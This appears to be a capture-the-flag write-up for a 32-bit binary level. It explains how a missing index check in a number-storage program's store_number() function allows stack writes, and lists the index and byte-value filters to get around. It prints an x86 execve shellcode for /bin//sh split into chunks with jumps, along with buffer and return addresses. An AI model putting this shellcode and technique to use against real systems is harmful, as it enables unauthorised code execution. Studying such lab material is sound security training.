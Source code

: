 The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - numbers are stored at index * 4
    - index % 3 must not be equal to 0
    - number >> 24 must not be equal to 183 

* The program has been compiled with the flag "-fstack-protector" which protects the return address of the program's main() function.

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 




Let's start by finding the buffer address in the store_number() function:

esp: 0xffffd520
buf dans main: 0x24(%esp) <=> 0xffffd544

"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"



index N     : "\x31\xc9\xf7\xe1"
index N+1   : "\xb0\x0b" + jump
index N+3   : "\x51\x68\x2f\x2f"
index N+4   : "\x73\x68" + jump
index N+6   : "\x68\x2f\x62\x69"
index N+7   : "\x6e\x89" + jump
index N+9   : "\xe3\xcd\x80"



buf:                    0xffffd544

eip in read_number():   0x8048930




We can now reach the next level with the command `su level08` and fill in the flag found as a password.